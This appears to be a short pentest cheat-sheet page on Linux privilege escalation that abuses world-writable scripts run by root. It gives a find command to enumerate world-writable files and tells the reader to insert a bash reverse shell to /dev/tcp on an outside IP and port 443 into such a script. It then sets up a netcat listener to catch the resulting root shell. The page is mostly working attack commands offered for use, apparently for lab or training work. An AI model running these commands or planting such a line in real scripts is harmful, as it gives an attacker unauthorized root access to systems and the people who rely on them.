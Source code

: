 # Writeable scripts - run by root

#### Enumerate over-permissive scripts.

```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

#### Edit the script - include the following command.&#x20;

```bash
bash -c 'bash -i >& /dev/tcp/192.168.242.142/443 0>&1' 
```

Establish the netcat listener and wait for a root to execute the script

```bash
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>
